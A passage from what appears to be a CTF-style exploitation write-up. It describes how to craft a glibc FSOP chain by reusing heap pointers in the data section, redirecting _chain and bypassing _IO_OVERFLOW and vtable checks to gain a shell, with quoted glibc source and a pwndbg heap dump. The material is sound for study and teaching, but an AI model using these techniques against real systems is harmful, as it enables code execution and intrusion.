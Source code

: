 Although we could point our `__strlen_avx2` to a one gadget and hopefully get a shell, I will try to make an actual classic FSOP from which we can craft a more stable shell. (Even though quite complicated)

After sucessfully calling `_IO_cleanup` our controled FILE stream is already linked in `_IO_list_all` list and actually `_IO_list_all` points back to our controled FILE stream. Having a known controlable buffer to place FSOP gadgets can make the exploitation easier but you might not need any extra buffer. In our case we do not need to have a known controlable buffer because we can reuse the existing heap addresses located in glibc data section to craft a `_chain` to point back to a controlable overflowed heap location. And fortunately for us, main arena probably will have plenty of those ;). `_IO_list_all` also points back to the heap but also points back to our FILE stream and because we do not have in our case a known controlable buffer to pivot there through the `_chain` pointer and we did not alter the current contents of our FILE stream it will be in no use to us.

We need to pick between all heap addresses in glibc data section the right heap address which can point back to an overflowed heap portion where we can place another fake FILE stream. For our crafted fake FILE stream we need to avoid triggering `_IO_OVERFLOW` because for the moment we do not control his vtable pointer and probably it points outside the `__libc_IO_vtables` section and will fail the `_IO_vtable_check` triggering an abort.  So we need to reuse a heap address in our glibc data section which can meet the conditions for avoiding entering  `_IO_OVERFLOW`.

The conditions to avoid triggering `_IO_OVERFLOW` are:
```c
    if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
	   || (_IO_vtable_offset (fp) == 0
	       && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
				    > fp->_wide_data->_IO_write_base))
	   )
	  && _IO_OVERFLOW (fp, EOF) == EOF)
```

In this step actually we need to understand what is following our FSOP chunk in the heap and we need to verify that we indeed are able to craft an FSOP by overflowing to the next chunk.
```python
pwndbg> tel 0x563f556572a0 80
00:0000│  0x563f556572a0 ◂— 0x6161616261616161 ('aaaabaaa')
01:0008│  0x563f556572a8 ◂— 0x6161616461616163 ('caaadaaa')
02:0010│  0x563f556572b0 ◂— 0x6161616661616165 ('eaaafaaa')
03:0018│  0x563f556572b8 ◂— 0x1
04:0020│  0x563f556572c0 ◂— 0x0
... ↓     3 skipped
08:0040│  0x563f556572e0 —▸ 0x7fb4630d6e30 (_IO_cleanup) ◂— endbr64 
09:0048│  0x563f556572e8 —▸ 0x7fb4630d6e30 (_IO_cleanup) ◂— endbr64 
0a:0050│  0x563f556572f0 ◂— 0x0
... ↓     6 skipped
11:0088│  0x563f55657328 —▸ 0x7fb463243c78 ◂— 0x0
12:0090│  0x563f55657330 ◂— 0x0
... ↓     2 skipped
15:00a8│  0x563f55657348 —▸ 0x7fb4632431f0 ◂— 0x0
16:00b0│  0x563f55657350 ◂— 0x0
17:00b8│  0x563f55657358 ◂— 0x0
18:00c0│  0x563f55657360 —▸ 0x7fb4632431f0 ◂— 0x0
19:00c8│  0x563f55657368 ◂— 0x0
... ↓     2 skipped
1c:00e0│  0x563f55657380 ◂— 0xffffffff
1d:00e8│  0x563f55657388 ◂— 0x0
1e:00f0│  0x563f55657390 ◂— 0x0
1f:00f8│  0x563f55657398 —▸ 0x7fb463245208 (_IO_mem_jumps+72) —▸ 0x7fb4630d7c50 (_IO_str_seekoff) ◂— endbr64 
20:0100│  0x563f556573a0 ◂— 0x0
21:0108│  0x563f556573a8 ◂— 0x0
22:0110│  0x563f556573b0 —▸ 0x7fb4632430b8 (*ABS*@got.plt) —▸ 0x7fb4630d6e30 (_IO_cleanup) ◂— endbr64 
23:0118│  0x563f556573b8 —▸ 0x7fb46304e768 ◂— 0x0
24:0120│  0x563f556573c0 ◂— 0x0
... ↓     25 skipped
```
